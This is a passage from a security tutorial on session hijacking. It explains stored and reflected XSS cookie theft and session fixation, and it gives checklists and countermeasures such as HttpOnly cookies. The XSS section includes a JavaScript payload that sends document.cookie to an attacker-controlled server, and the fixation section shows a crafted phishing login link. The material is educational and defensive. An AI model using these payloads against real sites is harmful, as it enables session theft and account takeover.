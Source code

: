   * **How It Works (The Attack Flow):**

    1.  **Discovery:** The attacker uses tools like **Burp Suite** or **OWASP ZAP** to find an XSS vulnerability on a target website (e.g., a search bar, comment field, or profile page that doesn't properly sanitize user input).
    2.  **Payload Crafting:** The attacker writes a JavaScript payload. A common payload creates a new image object and sets its source to the attacker's server, with the victim's cookie appended as a query parameter.
        ```javascript
        <script>
          new Image().src = "http://attacker-controlled-server.com/logger.php?cookie=" + document.cookie;
        </script>
        ```
    3.  **Injection:**
          * For **Stored XSS**, they inject this script into a comment field or forum post.
          * For **Reflected XSS**, they embed it in a URL and trick a user into clicking it via a phishing email.
    4.  **Execution:** A victim visits the compromised page or clicks the malicious link. Their browser, trusting the website, renders the HTML and executes the attacker's script.
    5.  **Exfiltration:** The script runs, grabs the victim's session cookie using `document.cookie`, and makes a request to the attacker's server, sending the cookie along.
    6.  **Hijacking:** The attacker checks their server logs, finds the stolen cookie, and uses it to impersonate the victim, just as in the sniffing attack.

  * **Vulnerability Checklist:**

      * Does the application properly validate and sanitize all user-supplied input?
      * Does the application encode output to prevent it from being interpreted as active content by the browser?

  * **Primary Countermeasure:** Setting the **`HttpOnly`** flag on the session cookie is the most direct defense. This flag prevents the cookie from being accessed by any client-side scripts, so even if an XSS flaw exists, the `document.cookie` call will not be able to read the session token.

-----

#### **3. Session Fixation**

  * **Concept:** An attack where the adversary provides a known session ID to a user, which the user then authenticates with. The attacker can then use that same pre-known ID to access the user's session.

  * **Attacker's Goal:** To bypass the need to steal the token after login by setting the token *before* login.

  * **How It Works (The Attack Flow):**

    1.  **Obtain a Token:** The attacker visits the target website's login page. The server issues them a new, unauthenticated session ID (e.g., `SID=abcdef123`).
    2.  **"Fix" the Token:** The attacker must now trick the victim into using this specific session ID. This is often done by sending a phishing email with a crafted link: `http://vulnerable-site.com/login?SID=abcdef123`.
    3.  **Victim Logs In:** The victim clicks the link, which sets the `SID=abcdef123` cookie in their browser. They then proceed to enter their own valid username and password.
    4.  **The Application Flaw:** The server authenticates the user's credentials successfully. **Crucially, it fails to generate a new session ID.** It simply elevates the privilege of the existing session (`SID=abcdef123`) from "unauthenticated" to "authenticated."
    5.  **Impersonation:** The attacker, who already knows the session ID is `abcdef123`, can now simply refresh their browser. Since that session is now authenticated, the server grants them full access to the victim's account.

